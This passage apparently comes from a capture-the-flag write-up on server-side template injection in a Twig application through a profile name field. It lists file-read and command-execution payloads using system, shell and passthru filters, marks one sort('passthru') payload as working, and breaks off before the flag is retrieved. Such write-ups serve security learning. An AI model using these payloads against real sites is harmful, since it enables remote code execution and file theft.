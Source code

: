 Upon updating the `fname` field, it appears that the value is reflected on the profile page.

#### Twig SSTI injection

#### Identifying vulnerability to SSTI

Using the simple test value of `{{7*7}}` shows the value `49` displayed. This shows that the application is vulnerable.

From the `composer.json` file, we know that the application uses _**Twig**_ as the server-side template engine.

I tried a few payloads I have found from multiple sources (refer to references below):

**CVE-2022-39261**

I found a CVE related to _Twig v2.14.0_.

{% embed url="https://github.com/twigphp/Twig/security/advisories/GHSA-52m2-vc4m-jj33" %}

```twig
{{ include('@null/index.php') }}
{% include('@null/index.php') %}
{{ source('@null/index.php') }}
```

**File read**

```twig
{{['cat index.php']|map('system')|join}} 
"{{'index.php'|file_excerpt(1,30)}}"@ 
```

**Code execution**

```twig
{{['id']|map('shell')|join}}
{{['id']|map('system')|join}}
{{['id']|map('passthru')|join}}
{{['id']|map('shell')}}
{{['id']|map('system')}}
{{['id']|map('passthru')}}

{{['id']|filter('shell')}} 
{{['id']|filter('system')}} 
{{['id']|filter('passthru')}} 

{{['id',""]|sort('shell')}} 
{{['id',""]|sort('system')}} 
{{['id',""]|sort('passthru')}} 
```

The payloads above doesn't seem to work. Finally, I found a working payload after a few iterations:

```twig
{{['id',""]|sort('passthru')}} 
```

**Retrieving the flag:**
